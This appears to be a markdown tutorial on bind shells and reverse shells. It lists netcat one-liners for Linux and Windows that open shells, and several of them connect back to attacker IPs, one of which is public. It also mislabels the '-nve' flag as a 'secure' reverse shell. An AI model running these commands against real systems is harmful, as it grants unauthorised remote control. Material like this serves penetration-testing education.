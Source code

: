 # 🔁 Bind Shell vs. Reverse Shell

**Bind shells** and **reverse shells** are commonly used in penetration testing and exploitation to gain remote access to a system. While they serve the same purpose, they differ in how connections are established and how they interact with firewalls or NAT (Network Address Translation).

---

## 🧲 1. Bind Shell

- The **target machine** opens a listening port and waits for a connection.
- The **attacker** connects to the target’s open port to gain shell access.
- ⚠️ **Firewall/NAT Issues**: If the target is behind a firewall or NAT, inbound connections may be blocked, making bind shells less practical.

### 🧪 Example Commands (Netcat)

#### Linux:
```bash
nc -nlvp 443 -e /bin/bash
```
- `-nlvp 443`: Listen on port 443
- `-e /bin/bash`: Execute bash shell when connected

#### Windows (cmd.exe):
```bash
nc.exe -nlvp 4444 -e cmd.exe
```

#### Windows (PowerShell):
```bash
nc.exe -nlvp 8080 -e powershell.exe
```

#### Attacker connects to bind shell:
```bash
nc -nv <target_ip> <port>
```

---

## 🔄 2. Reverse Shell

- The **target machine initiates** a connection back to the attacker.
- The **attacker** sets up a listener to receive the shell.
- ✅ **Firewall/NAT Friendly**: Outbound connections are usually allowed, so reverse shells often bypass restrictions.

### 🧪 Example Commands (Netcat)

#### Linux (connect back to attacker):
```bash
nc -e /bin/bash 192.168.1.7 443
```
- `192.168.1.7`: Attacker IP
- `443`: Port to connect to
- `-e /bin/bash`: Executes a bash shell

#### Attacker listener:
```bash
nc -nlvp 4444
```

#### Target connects back and spawns shell:
```bash
nc -nv 192.168.1.10 4444 -e /bin/bash
```

#### Windows (cmd.exe):
```bash
nc.exe -nv 192.168.1.10 4444 -e cmd.exe
```

#### Windows (PowerShell):
```bash
nc.exe -nv 192.168.1.10 4444 -e powershell.exe
```

#### Reverse shell to Linux system:
```bash
nc -e /bin/bash 182.68.172.41 4488
```

#### Secure reverse shell (Netcat + -nve flag):
```bash
nc -nve /bin/bash 182.68.172.41 4488
```

---

## 🔍 Key Differences

| Feature               | Bind Shell                              | Reverse Shell                                 |
|----------------------|------------------------------------------|-----------------------------------------------|
| **Who Starts Connection?** | Attacker connects to the target           | Target connects to the attacker                |
| **Firewall/NAT Handling** | Blocked if inbound connections are restricted | Bypasses restrictions via outbound traffic     |
| **Usage Scenario**        | Requires direct access to the target      | Useful in restricted environments              |
| **Stealth & Security**    | Easier to detect (open port visible)     | Harder to detect (mimics normal traffic)       |

---


